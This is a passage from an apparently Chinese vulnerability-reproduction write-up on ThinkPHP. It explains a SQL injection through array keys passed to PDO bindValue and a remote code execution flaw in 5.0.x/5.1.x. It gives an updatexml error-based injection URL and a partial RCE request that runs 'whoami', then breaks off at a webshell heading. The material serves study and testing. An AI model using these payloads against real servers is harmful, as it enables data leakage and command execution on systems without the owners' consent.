 代码先对  
$bindName  
 先进行了一次检测，防止了一些注入情况，但是我们看到$value是一个数组的情况下，会遍历  
$value  
，并将  
$k  
拼接进  
$bingName  
。  
  
介绍一下PDO预编译的过程  
  
1. prepare($SQL) 编译SQL语句  
  
2. bindValue($param, $value) 将value绑定到param的位置上  
  
3. execute() 执行  
  
这个漏洞实际上就是控制了第二步的$param变量，这个变量如果是一个SQL语句的话，那么在第二步的时候是会抛出错误的,返回执行的恶意语句结果  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3eGQCpceYUyibgAd5RQoDsxDBKYsklyWZ88BzhdrvUibheDWub0DmsVaTg/640?wx_fmt=png "")  
  
**2 影响版本**  
  
ThinkPHP < 5.1.23  
  
**3 复现**  
  
这里环境要用到80端口,记得关了之前的web环境(反弹shell时)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoKDn47vnMSPA4lc6HHaGf0ic541AZWwTorfrw4e1pE4OqwUaSL4avy8qVicuqglM3h7G5EQHibugK1w/640?wx_fmt=png "")  
  
访问  
/index.php?ids[]=1&ids[]=2  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3epiaKApLtoogCRTzgCec10sichQotu6TTe6FAUwgtricSjyKgRSkVM6n6g/640?wx_fmt=png "")  
  
/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3eGQCpceYUyibgAd5RQoDsxDBKYsklyWZ88BzhdrvUibheDWub0DmsVaTg/640?wx_fmt=png "")  
  
  
**ThinkPHP 5.0.23 远程代码执行漏洞**  
  
# 1 漏洞原理  
  
其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。  
  
**2 版本**  
  
ThinkPHP 5.0.x < 5.0.23 ThinkPHP 5.1.x < 5.1.31  
  
**3 复现**  
```
t&server[REQUEST_METHOD]=whoami
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3e4W9jRHwAoYPe67d8DW0wzeC1jyWjxEjdojMdIn2mXKRkNg6zibWfMJg/640?wx_fmt=png "")  
# 写shell  
  